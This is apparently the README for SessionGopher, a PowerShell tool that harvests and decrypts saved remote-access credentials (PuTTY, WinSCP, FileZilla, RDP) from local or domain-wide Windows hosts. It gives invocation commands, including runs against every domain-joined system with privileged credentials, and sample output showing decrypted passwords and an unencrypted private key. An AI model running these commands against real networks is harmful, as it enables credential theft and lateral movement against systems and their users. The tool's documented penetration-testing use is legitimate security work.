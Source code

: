 # SessionGopher
## Quietly digging up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP

SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It has WMI functionality built in so it can be run remotely.
Its best use case is to identify systems that may connect to Unix systems, jump boxes, or point-of-sale terminals.

SessionGopher works by querying the `HKEY_USERS` hive for all users who have logged onto a domain-joined box at some point. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, RDP, and VNC saved session information. It automatically extracts and decrypts WinSCP, FileZilla, and SuperPuTTY saved passwords.
When run in Thorough mode, it also searches all drives for PuTTY private key files (.ppk) and extracts all relevant private key information, including the key itself, as well as for Remote Desktop (.rdp) and RSA (.sdtid) files.

## Usage
**-Thorough**: searches all drives for PuTTY private key (.ppk), Remote Desktop Connecton (.rdp), and RSA (.sdtid) files. 

**-o**: outputs the data to a folder of .csv files

**-iL**: provide a file with a list of hosts to run SessionGopher against, each host separated by a newline. Provide the path to the file after `-iL`.

**-AllDomain**: SessionGopher will query Active Directory for all domain-joined systems and run against all of them.

**-Target**: a specific host you want to target. Provide the target host after `-Target`.

### To run locally
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Thorough
```

### To run remotely (-iL, -AllDomain, -Target)
To run remotely, you can either provide a privileged account's credentials for the remote system using the `-u` and `-p` flags. If you omit the `-u` and `-p` flags, 
SessionGopher will run under the security context of the account from which you run the script (e.g. if you are already logged in as DA account, or logged in as an account that
is local admin for the target system, or doing a _runas_ with either of the two, you won't need to supply credentials).

```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
or
```
. .\SessionGopher.ps1
Invoke-SessionGopher -iL computerlist.txt -u domain.com\adm-arvanaghi -p s3cr3tP@ss -o
```
or 
```
. .\SessionGopher.ps1
Invoke-SessionGopher -Target brandonArvanaghi_win7 -Thorough
```

Any of these commands can be coupled with `-Thorough`, but note that it takes significantly longer as it queries the entire remote filesystem. It is not recommended you run in `-Thorough` mode when querying
more than a small set of systems at a time. 

Running remotely by adding `-o` (print to CSV) works nicely, as SessionGopher will accumulate all sessions it finds and tell you exactly where it found that saved session. 

### To write to CSV (whether remote or local)
To have SessionGopher create a folder to neatly contain .csvs of the extracted sessions:
```
. .\SessionGopher.ps1
Invoke-SessionGopher -AllDomain -o
```
... that's it. 

Accessing the saved session information for every user in `HKEY_USERS` requires local admin privileges. Without local admin privileges, you will still receive saved session
information for that user.

### Sample output (-Thorough):

```
[+] Digging on Win7-Arvanaghi ...
 WinSCP Sessions

Session  : admin-anthony@198.273.212.334
Hostname : 198.273.212.334
Username : admin-anthony
Password : Super*p@ssw0rd

Session  : Freddy@204.332.455.213
Hostname : 204.332.455.213
Username : Freddy
Password : angelico1892

FileZilla Sessions

Name     : BarrySite
Password : imr34llytheFl@sh
Host     : 10.8.30.21
User     : BarryAllen
Protocol : Use FTP over TLS if available
Account  : BarryAllenAccount
Port     : 22

PuTTY Sessions

Session  : PointOfSaleTerminal
Hostname : 10.8.0.10

PuTTY Private Key Files (.ppk)

Path                   : C:\Users\Brandon Arvanaghi\Documents\mykey.ppk
Protocol               : ssh-rsa
Comment                : rsa-key-20170116
Private Key Encryption : none
Private Key            : {AAABAEazxtDz6E9mDeONOmz07sG/n1eS1pjKI8fOCuuLnQC58LeCTlysOmZ1/iC4, g4HyRpmdKJGhIxj66/RQ135hVesyk02StleepK4+Tnvz3zmdr4Do5W99qKkrWI3D, T9GOxOIoR9Zc6j57D+fdesJq4ItEIxcQZlXC1F9KZcbXjSJ3iBmCsbG/aRJmMJNx, 
                         nCMaZkySr4R4Z/E+l1JOzXaHh5WQ2P0K4YM1/6XG6C4VzDjvXwcY67MYsobTeCR2...}
Private MAC            : b7e47819fee39a95eb374a97f939c3c868f880de


Microsoft Remote Desktop (RDP) Sessions

Hostname : us.greatsite.com
Username : Domain\tester 

Microsoft Remote Desktop .rdp Files

Path                    : C:\Users\Brandon Arvanaghi\Desktop\config\PenTestLab-Win.RDP
Hostname                : dc01.corp.hackerplaypen.com
Gateway                 : rds01.corp.hackerplaypen.com
Prompts for Credentials : No
Administrative Session  : Does not connect to admin session on remote host

```

---

Written by Brandon Arvanaghi

[arvanaghi.com](https://arvanaghi.com)

[@arvanaghi](https://twitter.com/arvanaghi)

